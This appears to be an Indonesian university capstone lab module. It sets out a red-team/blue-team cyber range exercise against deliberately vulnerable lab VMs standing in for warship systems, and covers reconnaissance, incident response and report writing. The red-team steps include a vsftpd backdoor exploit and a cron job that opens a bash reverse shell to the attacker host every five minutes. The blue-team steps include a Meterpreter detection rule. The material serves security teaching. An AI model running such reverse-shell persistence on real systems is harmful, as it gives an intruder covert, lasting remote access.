

## **MODUL PRAKTIKUM MINGGU 9-14: LATIHAN SIBER TERPADU (INTEGRATED CYBER RANGE)**

**Mata Kuliah:** Proyek Keamanan Siber Terapan
**Kode Modul:** KS-LAB-CAPSTONE
**Durasi:** 6 Sesi x 4 Jam Praktikum (3 Minggu)

-----

### **A. DESKRIPSI DAN TUJUAN PEMBELAJARAN**

Modul praktikum *capstone* ini adalah puncak dari seluruh rangkaian pembelajaran. Selama tiga minggu ke depan, Anda akan berpartisipasi dalam sebuah latihan siber terpadu dengan skenario **Pertahanan Siber Maritim**. Anda akan dibagi menjadi dua tim: **Tim Merah (Red Team)** sebagai penyerang dan **Tim Biru (Blue Team)** sebagai pembela.

Latihan ini akan mensimulasikan sebuah kampanye siber yang menargetkan aset-aset digital yang merepresentasikan sistem di kapal perang. Tujuannya adalah untuk mengintegrasikan dan menerapkan **semua** keterampilan yang telah Anda pelajari dari modul-modul sebelumnya—mulai dari *reconnaissance*, eksploitasi, pasca-eksploitasi, hingga deteksi, analisis, dan respons insiden—dalam sebuah lingkungan yang dinamis dan adversarial.

**Tujuan Pembelajaran:**

Setelah menyelesaikan modul praktikum ini, mahasiswa diharapkan mampu:

1.  **Merencanakan dan Melaksanakan** sebuah kampanye siber ofensif berbasis tujuan (Tim Merah).
2.  **Mengoperasikan** sebuah pusat operasi keamanan (SOC) simulasi untuk mendeteksi, menganalisis, dan merespons serangan secara *real-time* (Tim Biru).
3.  **Menerapkan** teknik perlindungan spesifik untuk sistem yang merepresentasikan sistem-sistem di kapal (*shipboard systems*).
4.  **Mensimulasikan** prosedur komunikasi dan pelaporan antara unit siber taktis (di kapal) dan pusat komando (*command center*).
5.  **Menyusun** sebuah laporan latihan komprehensif yang menganalisis efektivitas serangan dan pertahanan, serta memberikan rekomendasi perbaikan strategis.

-----

### **B. SKENARIO LATIHAN: "ARMADA MAYA 2025"**

**Konteks:**
Dalam rangka Latihan Gabungan (Latgab) tahunan, Komando Pertahanan Siber menggelar latihan siber terpadu "ARMADA MAYA 2025". Tim Merah akan bertindak sebagai unit siber dari negara agresor "NEGARA GARUDA" yang bertujuan untuk menyabotase dan mengumpulkan intelijen dari aset-aset Angkatan Laut "NEGARA NUSANTARA" (diperankan oleh Tim Biru).

**Aset Target (In-Scope):**
Dua sistem utama yang merepresentasikan sistem di KRI kelas Patroli telah di-deploy di jaringan latihan `cyberlab-net`:

1.  **Sistem Kontrol Teknik (*Engineering Control System* - ECS):**
      * **Representasi:** Sistem lawas (*legacy system*) yang mengontrol permesinan dan sistem pendukung di kapal.
      * **VM Target:** `Metasploitable2-Target` (IP: `192.168.100.101`)
      * **Karakteristik:** Banyak layanan usang dan kerentanan yang diketahui.
2.  **Sistem Navigasi & Komunikasi (*Navigation & Comms System* - NAVCOM):**
      * **Representasi:** Sistem modern berbasis Linux yang mengelola data navigasi, komunikasi, dan fungsi komando & kendali dasar.
      * **VM Target:** `Security-Onion-Target` (IP: `192.168.100.100`)
      * **Karakteristik:** Sistem yang lebih diperkeras (*hardened*), namun tetap memiliki potensi kerentanan jika tidak dikonfigurasi dengan benar.

**Diagram Skenario Latihan:**



-----

-----

### **C. FASE I (MINGGU 9-10): PERSIAPAN DAN PENGINTAIAN**

Fase ini berfokus pada persiapan kedua tim sebelum "pertempuran" dimulai.

#### **Tugas Tim Merah (Red Team): Perencanaan Serangan**

**Tujuan:** Mengumpulkan intelijen pasif dan aktif, mengidentifikasi kerentanan, dan merumuskan sebuah Rencana Serangan (*Attack Plan*).

**Langkah-langkah:**

1.  **Reconnaissance (Nmap):** Lakukan pemindaian komprehensif terhadap kedua target (`192.168.100.100` dan `192.168.100.101`).
    ```bash
    # Scan Target 1 (ECS)
    sudo nmap -A -p- -oN ecs_scan.txt 192.168.100.101

    # Scan Target 2 (NAVCOM)
    sudo nmap -A -p- -oN navcom_scan.txt 192.168.100.100
    ```
2.  **Vulnerability Scanning (OpenVAS/GVM):** Lakukan pemindaian kerentanan terhadap kedua target. Simpan laporannya.
3.  **Analisis dan Perumusan Rencana Serangan:**
      * Berdasarkan hasil Nmap dan OpenVAS, identifikasi **setidaknya 3 vektor serangan potensial** untuk setiap target.
      * Rancang sebuah **rantai serangan (*kill chain*)** yang paling mungkin berhasil. Prioritaskan serangan pada sistem ECS (`.101`) yang lebih lemah sebagai titik masuk awal.
      * Rencana Anda harus mencakup:
          * **Vektor Akses Awal (*Initial Access*):** Bagaimana Anda akan masuk pertama kali? (Contoh: Eksploitasi `vsftpd` di ECS).
          * **Eskalasi Hak Istimewa (*Privilege Escalation*):** Bagaimana Anda akan mendapatkan akses `root`?
          * **Persistensi (*Persistence*):** Bagaimana Anda akan memastikan akses Anda tidak hilang jika mesin di-restart?
          * **Gerakan Lateral (*Lateral Movement*):** Bagaimana Anda akan menggunakan akses di ECS (`.101`) untuk mencoba menyerang NAVCOM (`.100`)?
          * **Tindakan pada Tujuan (*Actions on Objectives*):** Apa yang akan Anda lakukan setelah mendapatkan akses penuh?
4.  **Dokumentasi:** Buat sebuah dokumen "Rencana Serangan" singkat yang akan Anda gunakan pada fase berikutnya.

#### **Tugas Tim Biru (Blue Team): Pengerasan dan Persiapan Pertahanan**

**Tujuan:** Mengkonfigurasi platform pemantauan, memperkeras sistem (sebisa mungkin), dan menyiapkan prosedur deteksi.

**Langkah-langkah:**

1.  **Verifikasi Kesehatan Sensor:**
      * Login ke dasbor Security Onion (`https://192.168.100.100`).
      * Navigasikan ke **Grid** (pojok kanan atas). Pastikan semua layanan (Elasticsearch, Suricata, Wazuh, dll.) menunjukkan status `OK` (hijau).
2.  **Analisis Permukaan Serangan Sendiri:**
      * Meskipun Anda adalah pembela, Anda harus berpikir seperti penyerang. Lakukan Nmap scan pada diri Anda sendiri (`192.168.100.100`) untuk memahami port apa saja yang terbuka dan bisa menjadi target.
      * Perintah di terminal Security Onion: `sudo nmap -sV localhost`
3.  **Buat Aturan IDS Kustom:**
      * Berdasarkan intelijen (Anda tahu Tim Merah kemungkinan akan menggunakan Metasploit), buat aturan IDS kustom untuk mendeteksi *payload* atau aktivitas Metasploit yang umum.
      * **Contoh Aturan Kustom:** Buat aturan untuk mendeteksi *user agent* default dari *payload* HTTP Meterpreter.
          * Akses terminal Security Onion: `sudo nano /opt/so/rules/local/local.rules`
          * Tambahkan aturan:
            ```text
            alert http any any -> any any (msg:"KS-LAB - Possible Metasploit Meterpreter User-Agent"; content:"Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"; classtype:trojan-activity; sid:1000002; rev:1;)
            ```
          * Terapkan aturan: `sudo so-rule-update`
4.  **Siapkan Dasbor Pemantauan:**
      * Di dasbor Kibana (di dalam Security Onion), buat dasbor khusus untuk latihan ini.
      * Tambahkan visualisasi kunci:
          * Peta yang menunjukkan IP sumber dan tujuan.
          * Grafik pie yang menunjukkan `alert.rule.name` teratas.
          * Tabel yang menampilkan alert terbaru secara *real-time*.
5.  **Siapkan Prosedur Komunikasi:**
      * Siapkan sebuah file teks atau logbook digital (misalnya, `incident_log.txt`).
      * Tentukan format standar untuk mencatat setiap peristiwa penting: `[WAKTU] - [AKTIVITAS TERDETEKSI] - [ANALISIS AWAL] - [TINDAKAN YANG DIAMBIL]`. Ini akan menjadi log komunikasi Anda ke "Puskomando".

-----

-----

### **E. FASE II (MINGGU 11-12): EKSEKUSI SERANGAN DAN DETEKSI**

Ini adalah fase "pertempuran" utama. Tim Merah akan mengeksekusi rencana mereka, sementara Tim Biru harus mendeteksi dan menganalisis serangan secara *real-time*.

#### **Tugas Tim Merah (Red Team): Pelaksanaan Intrusi**

**Tujuan:** Mendapatkan akses ke target dan mencapai "bendera" (flags) yang telah ditentukan.

**Langkah-langkah Eksekusi (Contoh Alur):**

1.  **Akses Awal ke ECS (`.101`):**

      * Gunakan Metasploit untuk mengeksploitasi kerentanan `vsftpd 2.3.4` seperti pada modul sebelumnya.
      * Setelah mendapatkan *shell*, verifikasi akses `root`.
      * **PENCAPAIAN FLAG \#1:** Buat sebuah file di direktori root: `echo "REDTEAM_FLAG1_ECS_ROOT" > /flag1.txt`

2.  **Pasca-Eksploitasi di ECS:**

      * **Persistensi**: Buat sebuah *cron job* sederhana yang akan membuka koneksi *reverse shell* kembali ke mesin Kali Anda setiap 5 menit. Ini memastikan Anda bisa masuk kembali jika sesi awal terputus.
          * Di shell Metasploitable: `(crontab -l 2>/dev/null; echo "*/5 * * * * /bin/bash -i >& /dev/tcp/192.168.100.10/4444 0>&1") | crontab -`
          * Di terminal Kali, siapkan listener: `nc -lvnp 4444`
      * **Pengumpulan Informasi**: Jalankan perintah untuk mengumpulkan informasi tentang jaringan dari dalam: `netstat -antp`, `arp -a`.

3.  **Gerakan Lateral ke NAVCOM (`.100`):**

      * **Pivot**: Dari *shell* di ECS, coba lakukan Nmap scan terhadap NAVCOM. Ini mensimulasikan serangan dari "dalam" jaringan.
          * `nmap -sV 192.168.100.100`
      * **Eksploitasi (Skenario Web)**: Kita asumsikan (untuk tujuan latihan) NAVCOM memiliki aplikasi web internal yang rentan.
          * Gunakan Burp Suite dari Kali, tetapi konfigurasikan *shell* Anda di ECS untuk meneruskan lalu lintas. Ini adalah teknik *pivoting* yang canggih.
          * Targetkan aplikasi web di `https://192.168.100.100`. Cari kerentanan.
      * **PENCAPAIAN FLAG \#2:** Jika Anda berhasil mendapatkan akses (bahkan *low-privilege shell*) ke NAVCOM, buat file di direktori `/tmp`: `echo "REDTEAM_FLAG2_NAVCOM_ACCESS" > /tmp/flag2.txt`

#### **Tugas Tim Biru (Blue Team): Pemantauan dan Analisis Aktif**

**Tujuan:** Mendeteksi setiap langkah Tim Merah, menganalisis TTPs mereka, dan memulai proses triase insiden.

**Langkah-langkah Analisis:**

1.  **Deteksi Reconnaissance:**

      * Di dasbor **Alerts** Security Onion, Anda akan melihat badai alert dari Nmap scan yang dilakukan oleh Tim Merah di Fase I.
      * **Tugas Anda**: Jangan panik. **Kelompokkan (Group)** alert ini berdasarkan `source.ip` dan `alert.signature`. Identifikasi bahwa ini adalah aktivitas pemindaian terkoordinasi dari `192.168.100.10`.
      * **Catat di Logbook**: `[WAKTU] - Terdeteksi Nmap scan masif dari 192.168.100.10 terhadap 192.168.100.101 dan 192.168.100.100. Analisis: Fase pengintaian aktif sedang berlangsung.`

2.  **Deteksi Eksploitasi Akses Awal:**

      * Saat Tim Merah melancarkan eksploit `vsftpd`, Anda akan melihat alert `ET EXPLOIT VSFTPD 2.3.4 Backdoor Login`. Ini adalah **alert KRITIS**.
      * **Tugas Anda**: Segera lakukan *drill-down*.
          * Buka detail alert.
          * Unduh **PCAP**. Analisis di Wireshark untuk mengkonfirmasi *payload*.
          * Gunakan dasbor **Hunt** untuk mencari semua koneksi antara `192.168.100.10` dan `192.168.100.101` di sekitar waktu alert. Anda akan menemukan koneksi C2 di port `6200`.
      * **Catat di Logbook**: `[WAKTU] - KRITIS! Terdeteksi eksploitasi VSFTPD terhadap ECS (101) dari Penyerang (10). PCAP mengkonfirmasi. Ditemukan C2 callback ke port 6200. Analisis: Host ECS telah terkompromi penuh (root).`

3.  **Deteksi Pasca-Eksploitasi dan Gerakan Lateral:**

      * **Deteksi Persistensi**: Ini lebih sulit. Ini memerlukan pemantauan HIDS (Wazuh). Jika agen Wazuh terinstal di ECS, ia akan mendeteksi modifikasi file `crontab` dan menghasilkan alert **File Integrity Monitoring (FIM)**.
      * **Deteksi Gerakan Lateral**: Saat Tim Merah melakukan Nmap scan dari ECS ke NAVCOM, sensor Suricata Anda akan melihatnya. Namun, kali ini `source.ip` akan menjadi `192.168.100.101`.
      * **Tugas Anda**: Korelasikan peristiwa ini. Anda tahu ECS sudah terkompromi. Sekarang Anda melihat aktivitas pemindaian berasal darinya.
      * **Catat di Logbook**: `[WAKTU] - Terdeteksi Nmap scan dari host ECS (101) yang terkompromi ke host NAVCOM (100). Analisis: Penyerang menggunakan ECS sebagai titik pivot untuk melakukan gerakan lateral.`

4.  **Komunikasi ke Puskomando (Simulasi):**

      * Setiap kali Anda membuat entri logbook yang signifikan (terutama yang KRITIS), kirimkan pembaruan singkat ke Instruktur (Sel Putih) yang bertindak sebagai Puskomando.
      * Contoh Laporan Situasi (SITREP):
        > "UNTUK PUSKOMANDO. TIM BIRU MELAPORKAN. PUKUL [WAKTU], HOST ECS (192.168.100.101) TERKONFIRMASI TELAH DIKOMPROMI PENUH OLEH PENYERANG (192.168.100.10). PENYERANG SAAT INI TERDETEKSI MENCOBA BERGERAK KE SISTEM NAVCOM. TINDAKAN PENAHANAN SEDANG DISIAPKAN. SELESAI."

-----

-----

### **F. FASE III (MINGGU 13-14): RESPONS INSIDEN DAN PELAPORAN**

Fase terakhir adalah tentang mengambil tindakan aktif untuk mengatasi ancaman dan menyusun laporan akhir yang komprehensif.

#### **Tugas Tim Biru (Blue Team): Penahanan, Pemberantasan, dan Pemulihan**

**Tujuan:** Menerapkan prosedur IR untuk mengusir penyerang dan memulihkan sistem, sambil mendokumentasikan setiap langkah.

**Langkah-langkah Respons:**

1.  **Penahanan (*Containment*)**:

      * **Tujuan**: Mencegah penyerang mencapai tujuan akhir mereka.
      * **Tindakan**: Buat aturan firewall di `Security-Onion-Target` (NAVCOM) untuk memblokir semua lalu lintas yang datang dari `Metasploitable2-Target` (ECS). Ini akan menghentikan upaya gerakan lateral.
          * Di terminal Security Onion, jalankan:
            ```bash
            sudo iptables -I INPUT -s 192.168.100.101 -j DROP
            ```
          * **Verifikasi**: Minta Tim Merah untuk mencoba memindai atau mengakses NAVCOM dari ECS. Seharusnya gagal.
      * **Catat di Logbook**: `[WAKTU] - TINDAKAN: Aturan firewall diimplementasikan di NAVCOM (100) untuk memblokir semua koneksi dari ECS (101). Gerakan lateral berhasil ditahan.`

2.  **Pemberantasan (*Eradication*)**:

      * **Tujuan**: Membersihkan semua jejak penyerang dari host yang terkompromi.
      * **Tindakan**:
          * Buat rencana untuk membangun ulang VM `Metasploitable2-Target`.
          * Sebelum menghapusnya, ambil **snapshot forensik** dari VM untuk analisis lebih lanjut (di dunia nyata). Di VirtualBox, ini bisa dilakukan dengan mengkloning disk.
          * Hapus VM yang terkompromi dan deploy kembali dari file `.vmdk` asli.
      * **Catat di Logbook**: `[WAKTU] - TINDAKAN: Host ECS (101) telah diisolasi. Snapshot forensik diambil. Rencana pembangunan ulang dari citra bersih telah dieksekusi.`

3.  **Pemulihan (*Recovery*)**:

      * **Tujuan**: Mengembalikan layanan dengan aman.
      * **Tindakan**:
          * Sebelum VM ECS yang baru dihubungkan ke jaringan, terapkan **virtual patching**. Buat aturan firewall di NAVCOM yang secara spesifik memblokir port `21` dari ECS. Ini akan mencegah eksploit yang sama bekerja lagi, bahkan jika perangkat lunak yang rentan masih ada.
            ```bash
            # Hapus aturan DROP sebelumnya
            sudo iptables -D INPUT -s 192.168.100.101 -j DROP
            # Tambahkan aturan yang lebih spesifik
            sudo iptables -A INPUT -s 192.168.100.101 -p tcp --dport 21 -j DROP
            ```
          * Nyalakan kembali VM ECS yang baru.
      * **Catat di Logbook**: `[WAKTU] - TINDAKAN: Host ECS yang bersih telah di-deploy ulang. Virtual patching diterapkan untuk memblokir vektor serangan awal. Layanan dianggap pulih dengan pemantauan ketat.`

4.  **Aktivitas Pasca-Insiden (*Lessons Learned*)**:

      * Lakukan tinjauan singkat. Apa yang berjalan baik? Apa yang bisa lebih baik? Apakah aturan IDS kustom kita berfungsi? Seberapa cepat kita mendeteksi serangan?

#### **Tugas Tim Merah (Red Team): Analisis Pasca-Aksi**

**Tujuan:** Menganalisis keberhasilan dan kegagalan operasi Anda.

**Langkah-langkah Analisis:**

1.  **Evaluasi Pencapaian Tujuan**: Flag mana yang berhasil Anda capai? Mengapa Anda gagal mencapai flag lainnya?
2.  **Analisis Deteksi**: Pada titik mana Anda merasa aktivitas Anda mungkin telah terdeteksi? Apakah Anda melihat tanda-tanda respons dari Tim Biru (misalnya, koneksi tiba-tiba terputus)?
3.  **Refleksi TTPs**: Teknik mana yang paling efektif? Teknik mana yang paling "berisik"? Apa yang akan Anda lakukan secara berbeda lain kali untuk menjadi lebih tersembunyi?

-----

### **G. TUGAS AKHIR: LAPORAN LATIHAN KOMPREHENSIF**

**Tujuan:** Mengkonsolidasikan semua temuan, log, dan analisis dari kedua tim ke dalam satu laporan akhir yang koheren.

**Struktur Laporan:**

-----

**LAPORAN AKHIR LATIHAN SIBER TERPADU "ARMADA MAYA 2025"**

**Periode Latihan:** [Tanggal Mulai] - [Tanggal Selesai]

-----

**1. RINGKASAN EKSEKUTIF**
*(Ringkasan tingkat tinggi. Jelaskan skenario, tujuan utama, hasil kunci dari Tim Merah dan Tim Biru, dan 2-3 rekomendasi strategis paling penting).*

**2. SKENARIO DAN ATURAN PELIBATAN (RULES OF ENGAGEMENT - ROE)**

  * Jelaskan skenario latihan, aset yang menjadi target, dan batasan-batasan yang ditetapkan.

**3. NARASI SERANGAN (TIM MERAH)**

  * **3.1. Rencana Serangan**: Jelaskan rencana awal Tim Merah.
  * **3.2. Kronologi Eksekusi**: Ceritakan serangan langkah demi langkah dari perspektif Tim Merah.
  * **3.3. Analisis Pasca-Aksi**: Evaluasi keberhasilan, kegagalan, dan pelajaran yang dipetik oleh Tim Merah.

**4. NARASI PERTAHANAN (TIM BIRU)**

  * **4.1. Persiapan Pertahanan**: Jelaskan langkah-langkah persiapan yang diambil oleh Tim Biru.
  * **4.2. Log Investigasi dan Respons Insiden**: Sajikan **logbook insiden** yang telah Anda buat, yang menceritakan deteksi, analisis, dan respons langkah demi langkah.
  * **4.3. Analisis Efektivitas Pertahanan**: Evaluasi seberapa efektif pertahanan yang ada. Tool mana yang paling berguna? Di mana titik buta (*blind spots*) Anda?

**5. TEMUAN KUNCI DAN ANALISIS RISIKO**

  * Buat daftar kerentanan teknis dan kelemahan prosedural yang dieksploitasi atau diidentifikasi selama latihan.
  * Untuk setiap temuan, berikan penilaian risiko (Kritis, Tinggi, Sedang, Rendah).

**6. REKOMENDASI PERBAIKAN**
*(Bagian paling penting. Berikan rekomendasi konkret dan dapat ditindaklanjuti).*

  * **Rekomendasi Jangka Pendek (Taktis)**: (Contoh: "Segera lakukan patching terhadap semua layanan yang menjalankan VSFTPD v2.3.4", "Implementasikan aturan firewall egress untuk memblokir C2 di port non-standar").
  * **Rekomendasi Jangka Menengah (Operasional)**: (Contoh: "Kembangkan playbook SOAR untuk respons otomatis terhadap alert eksploitasi kritis", "Adakan sesi pelatihan *threat hunting* bulanan").
  * **Rekomendasi Jangka Panjang (Strategis)**: (Contoh: "Alokasikan anggaran untuk mengganti semua sistem kontrol legacy (ECS) dengan platform modern yang aman", "Bangun program manajemen kerentanan yang komprehensif").

**7. LAMPIRAN**

  * Lampirkan output Nmap, screenshot alert penting, dan artefak relevan lainnya.

-----

### **H. SUMBER PEMBELAJARAN**

  * **Kerangka Kerja Respons Insiden**:
      * **NIST SP 800-61 Rev. 2 (Computer Security Incident Handling Guide)**: [https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
  * **Simulasi Musuh (*Adversary Emulation*)**:
      * **MITRE ATT\&CK® Framework**: Gunakan ini untuk memetakan TTPs Tim Merah. [https://attack.mitre.org/](https://attack.mitre.org/)
  * **Platform Latihan Lanjutan**:
      * **Cyber Range dan Skenario**: Pelajari tentang platform seperti [Cyberbit](https://www.cyberbit.com/) atau [Immersive Labs](https://www.immersivelabs.com/) untuk melihat bagaimana latihan skala besar dilakukan di industri.
